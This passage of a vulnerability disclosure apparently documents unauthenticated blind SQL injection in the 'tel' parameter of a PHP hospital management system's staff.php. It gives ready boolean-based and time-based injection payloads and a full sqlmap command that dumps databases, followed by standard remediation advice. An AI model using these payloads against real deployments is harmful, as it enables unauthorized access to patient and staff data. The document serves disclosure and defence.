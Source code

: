 # 6. Exploitation
+ No authentication or authorization is required to exploit this vulnerability.

# 7. Vulnerability Details and Proof of Concept (PoC)

## 7.1 Vulnerability Types
	Boolean-Based Blind SQL Injection
	Time-Based Blind SQL Injection

## 7.2 Vulnerable Parameter
	tel

## 7.3 Payloads

**Boolean-Based Blind SQL Injection:**
```bash
dmun=superAdmin&fname=polaris&lname=Blue&addr=1066 Front St&tel=178493927' RLIKE (SELECT (CASE WHEN (7754=7754) THEN 178493927 ELSE 0x28 END)) AND 'osvG'='osvG&email=hacker0x1@163.com&gender=Male&smbdd=2024-12-10&typesm=Doctor&workt=Evening&submit=SUBMIT
```
**Time-Based Blind SQL Injection:**
```bash
dmun=superAdmin&fname=polaris&lname=Blue&addr=1066 Front St&tel=178493927' AND (SELECT 1303 FROM (SELECT(SLEEP(5)))TqHy) AND 'fNVr'='fNVr&email=hacker0x1@163.com&gender=Male&smbdd=2024-12-10&typesm=Doctor&workt=Evening&submit=SUBMIT
```
## 7.4 Exploitation Steps with sqlmap
```bash
sqlmap -u "10.211.55.6:1133/staff.php" \
       --cookie="PHPSESSID=nn14c3dea64e57kvj0896m3djm" \
       --data="dmun=superAdmin&fname=polaris&lname=Blue&addr=1066+Front+St&tel=178493927&email=hacker0x1%40163.com&gender=Male&smbdd=2024-12-10&typesm=Doctor&workt=Evening&submit=SUBMIT" \
       --batch --level=5 --risk=3 --dbms=mysql \
       --random-agent --tamper=space2comment --dbs
```
**Screenshots from sqlmap Execution:**
+ <img width="1683" alt="image" src="https://github.com/user-attachments/assets/03b8f55f-790c-4097-9b53-219c84b5a969" />

# 8. Recommendations for Remediation
**1.Use Prepared Statements and Parameterized Queries:**
+ Implementing prepared statements ensures that SQL queries are separated from user inputs, preventing malicious code execution.
**2.Input Validation and Sanitization:**
+ Rigorously validate and sanitize all user inputs to conform to expected formats and types before processing.
**3.Least Privilege Principle:**
+ Restrict database user permissions to the minimum required, avoiding the use of high-privilege accounts (e.g., root or admin) for routine operations.
**4.Regular Security Audits:**
+ Conduct periodic code reviews and security assessments to identify and remediate vulnerabilities promptly.

**Appendix**
+ Vendor Homepage: [Hospital Management System](https://codezips.com/php/hospital-management-system-in-php-and-mysql-with-source-code/)
+ Download Source Code: [GitHub Repository](https://codeload.github.com/codezips/hospital-management-system-php/zip/master)
